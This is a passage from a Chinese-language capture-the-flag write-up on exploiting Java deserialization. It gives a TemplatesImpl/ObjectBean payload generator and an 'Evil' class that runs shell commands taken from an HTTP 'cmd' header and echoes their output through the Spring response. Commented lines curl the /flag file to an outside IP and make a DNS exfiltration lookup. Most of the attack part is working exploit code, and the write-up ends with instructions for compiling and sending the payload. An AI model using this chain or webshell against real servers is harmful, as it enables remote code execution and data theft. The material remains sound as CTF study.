        fieldName.set(templatesimpl, "test");

        Field fieldTfactory = templatesimpl.getClass().getDeclaredField("_tfactory");
        fieldTfactory.setAccessible(true);
        fieldTfactory.set(templatesimpl, Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl").newInstance());


        ObjectBean objectBean1 = new ObjectBean(Templates.class, templatesimpl);
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream out = new ObjectOutputStream(byteArrayOutputStream);
        out.writeObject(objectBean1);
        byte[] sss = byteArrayOutputStream.toByteArray();
        out.close();
        String exp = Base64.getEncoder().encodeToString(sss);
        System.out.println(exp.replace("+","%2b"));


    }
}

```

还是动态加载字节码，关键就是那个恶意类里面要执行的代码该怎么写了。

我先是在本地打通了，远程那边一直没有回显，猜测是不出网，问了一下出题人确实是不出网的。

然后就开始了一下午的不出网回显尝试，尝试了各种奇奇怪怪的东西，什么dns，tomcat的各种内存马，Spring的内存马，等等发现都没打通。。。至于为什么我也不知道，不太会Java，这些东西等以后自己慢慢学到了应该就知道了。


最后是找到了这个东西：

https://github.com/SummerSec/JavaLearnVulnerability/blob/master/Rce_Echo/TomcatEcho/src/main/java/summersec/echo/Controller/SpringEcho.java

感觉也不算是内存马吧，就是通过上下文还有反射最终来回显。我一开始也想过就是能不能按照Tomcat的Filter的那种思路（因为刚学过）去获取Request，再想办法获取获取Response，不是想办法注册Filter了，而是直接把结果回显，但是想了一下网上可能有现成的就一直在找现成的POC没去找这个东西，结果还是错付了。

写个`Evil.java`：

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import java.net.InetAddress;
import java.io.ByteArrayOutputStream;
import java.io.InputStream;
import java.io.ObjectOutputStream;
import java.io.*;
import java.lang.reflect.Method;
import java.util.Scanner;
public class Evil extends AbstractTranslet
{
            @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
    public Evil() throws Exception{
                    Class c = Thread.currentThread().getContextClassLoader().loadClass("org.springframework.web.context.request.RequestContextHolder");
        Method m = c.getMethod("getRequestAttributes");
        Object o = m.invoke(null);
        c = Thread.currentThread().getContextClassLoader().loadClass("org.springframework.web.context.request.ServletRequestAttributes");
        m = c.getMethod("getResponse");
        Method m1 = c.getMethod("getRequest");
        Object resp = m.invoke(o);
        Object req = m1.invoke(o); // HttpServletRequest
        Method getWriter = Thread.currentThread().getContextClassLoader().loadClass("javax.servlet.ServletResponse").getDeclaredMethod("getWriter");
        Method getHeader = Thread.currentThread().getContextClassLoader().loadClass("javax.servlet.http.HttpServletRequest").getDeclaredMethod("getHeader",String.class);
        getHeader.setAccessible(true);
        getWriter.setAccessible(true);
        Object writer = getWriter.invoke(resp);
        String cmd = (String)getHeader.invoke(req, "cmd");
        String[] commands = new String[3];
        String charsetName = System.getProperty("os.name").toLowerCase().contains("window") ? "GBK":"UTF-8";
        if (System.getProperty("os.name").toUpperCase().contains("WIN")) {
            commands[0] = "cmd";
            commands[1] = "/c";
        } else {
            commands[0] = "/bin/sh";
            commands[1] = "-c";
        }
        commands[2] = cmd;
        writer.getClass().getDeclaredMethod("println", String.class).invoke(writer, new Scanner(Runtime.getRuntime().exec(commands).getInputStream(),charsetName).useDelimiter("\\A").next());
        writer.getClass().getDeclaredMethod("flush").invoke(writer);
        writer.getClass().getDeclaredMethod("close").invoke(writer);
    }
}
         //   String[] cmd = {"/bin/sh","-c","curl http://172.16.177.48:39555/ -F file=@/flag"};
         //           InputStream in = Runtime.getRuntime().exec(cmd).getInputStream();
//        byte[] bcache = new byte[1024];
//        int readSize = 0;
//        try(ByteArrayOutputStream outputStream = new ByteArrayOutputStream()){
//            while ((readSize =in.read(bcache))!=-1){
//                outputStream.write(bcache,0,readSize);
//            }
//            String result = outputStream.toString();
//        InetAddress.getByName("1m22164l.ns.dns3.cf.").isReachable(3000);
//      }

       // }

            //Runtime.getRuntime().exec("sh /tmp/feng");
        //}
        //catch (Exception ex) {
        //    ex.printStackTrace();
        //}


```

然后javac编译成class，然后`cat Evil.class|base64 -w 0`，再把这段base64扔到上面的那个代码里面的`byte[][] bytecodes = new byte[][]{Base64.getDecoder().decode();`，生成payload，然后打过去就回显了：



